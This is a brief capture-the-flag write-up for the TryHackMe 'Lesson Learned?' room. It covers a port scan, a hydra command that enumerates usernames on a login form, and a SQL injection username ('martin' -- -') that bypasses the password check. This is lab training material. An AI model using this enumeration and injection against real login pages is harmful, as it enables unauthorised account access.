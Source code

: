 # Lesson Learned?

[TryHackMe Room](https://tryhackme.com/room/lessonlearned)

## Solution

- from the ctf description this looks like just a simple website

- nmap scan: 22, 80

- website is a very simple login page which makes a post request with username and password fields

- can try to use hydra to enumerate the usernames, maybe the error message will be different

```console
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -p password $IP http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
```

- found one username `martin`

- we can try to think of the SQL query as

```SQL
SELECT * FROM users WHERE username = 'username' AND password = 'password'
```

- since we know the username we can try to inject into the query a string that
  will work regardless of the password (this works if the password is checked
  after the username only)

- if we use the following text as the username we will remove the password check

```text
martin' -- -
```

```SQL
SELECT * FROM users WHERE username = 'martin' -- -' AND password = ''
```

- with this new prompt we bypass the login and find the flag
